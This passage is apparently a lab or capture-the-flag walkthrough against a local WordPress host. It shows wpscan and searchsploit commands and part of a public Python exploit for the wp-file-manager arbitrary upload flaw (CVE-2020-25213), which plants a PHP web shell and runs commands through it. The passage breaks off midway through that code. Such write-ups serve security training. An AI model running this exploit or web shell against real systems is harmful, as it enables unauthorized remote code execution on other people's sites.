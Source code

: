 
The presence of `wp-content`, `wp-login.php`, `wp-includes`, `wp-admin`, and `xmlrpc.php` strongly indicated a WordPress installation. The 500 errors suggested a database connection issue, which was later confirmed.

### Initial Foothold

#### WordPress Analysis with WPScan

I used `wpscan` to identify the WordPress version and any installed plugins or themes, along with known vulnerabilities. I used the `--force` flag to bypass the WordPress detection check, as the site was returning 500 errors for some WordPress-specific paths.

```shellscript
wpscan --url http://192.168.1.16/ --enumerate ap --api-token YOUR_WPSCAN_API_TOKEN --force
```

**Key findings from `wpscan`:**

- WordPress version **5.5.1** identified (Insecure).
- Plugin identified: `wp-file-manager 6.7`.
- `wpscan` listed numerous vulnerabilities for WordPress core and the `wp-file-manager` plugin. The `wp-file-manager` plugin is known for an unauthenticated arbitrary file upload vulnerability.


#### Exploiting WP File Manager (CVE-2020-25213)

I searched `exploitdb` for exploits related to `wp-file-manager`:

```shellscript
searchsploit wp-file-manager
```

This returned: `WP-file-manager v6.9 - Unauthenticated Arbitrary File Upload leading to RCE | php/webapps/51224.py`.

I copied the exploit script to my current directory:

```shellscript
cp /usr/share/exploitdb/exploits/php/webapps/51224.py ./
```

I then reviewed the Python exploit script `51224.py`. It's designed to upload a PHP web shell to `/wp-content/plugins/wp-file-manager/lib/files/shell.php` and then execute commands via a `cmd` GET parameter.

```python
#!/usr/bin/env
# Exploit Title: WP-file-manager v6.9 - Unauthenticated Arbitrary File Upload leading to RCE
# Date: [ 22-01-2023 ]
# Exploit Author: [BLY]
# Vendor Homepage: [https://wpscan.com/vulnerability/10389]
# Version: [ File Manager plugin 6.0-6.9]
# Tested on: [ Debian ]
# CVE : [ CVE-2020-25213 ]
import sys,signal,time,requests
from bs4 import BeautifulSoup
#from pprint import pprint

def handler(sig,frame):
        print ("[!]Saliendo")
        sys.exit(1)

signal.signal(signal.SIGINT,handler)

def commandexec(command):
        exec_url = url+"/wp-content/plugins/wp-file-manager/lib/php/../files/shell.php"
        params = {
                "cmd":command
        }
        r=requests.get(exec_url,params=params)
```